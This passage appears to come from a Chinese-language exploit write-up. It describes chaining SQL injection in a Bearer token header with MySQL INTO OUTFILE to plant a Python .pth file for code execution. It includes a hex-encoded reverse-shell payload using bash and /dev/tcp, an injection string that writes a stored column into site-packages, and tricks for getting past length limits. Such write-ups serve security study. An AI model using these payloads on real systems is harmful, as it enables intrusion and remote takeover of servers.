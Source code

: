 最终我们会得到如下代码：  

```
UNHEX('696d706f7274206f733b206f732e73797374656d282762617368202d6320222f62696e2f62617368202d69203e26202f6465762f7463702f312f3220303e2631222729')
```

  
不幸的是，这超出了最大输入限制。  
  
我们感到沮丧，但突然有了一个想法：与其一次性写入整个 payload，不如将其分块处理？这可行吗？  
  
当然，MySQL 的 
```
INTO OUTFILE
```

  
有一个众所周知的限制——它只能写入新文件。不能追加，不能覆盖。每个文件路径只有一次机会。  
  
但这里有个转折：虽然我们只能对目标文件调用一次 
```
INTO OUTFILE
```

  
，但我们可以在写入前构建内容。  
  
那么，如果我们把 payload 分块存储到另一个列中...然后让 MySQL 将该列的值转储到文件中呢？  
  
查看 
```
fabric_user.user_table
```

  
的 schema 时，一个列立即引起了我们的注意：
```
token
```

  
。完美。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/hoiaQy7WhTCM8OiaFFdRfrz0MY2VojWkkib3LAXuS9mY44A4wfOXEMMXTWCuvdUbLlICs4ibZo1iaBklzlV6jp22PxQ/640?wx_fmt=png&from=appmsg "")  
  
这样的方法能行得通吗？  

```
Bearer '/**/UNION/**/SELECT/**/token/**/from/**/fabric_user.user_table/**/into/**/outfile/**/'/var/log/lib/python3.10/site-packages/b.pth
```

  
但又一次 - 上面的查询？137 字节。  
  
看起来我们完蛋了，对吧？  
  
此时我们感到非常沮丧。但 - 我们还有想法。  
  
如果我们使用通配符 (glob characters) 呢？与其提供完整路径，我们尝试了类似这样的方法：  

```
bash
/var/log/lib/python3.10/site-*/
```
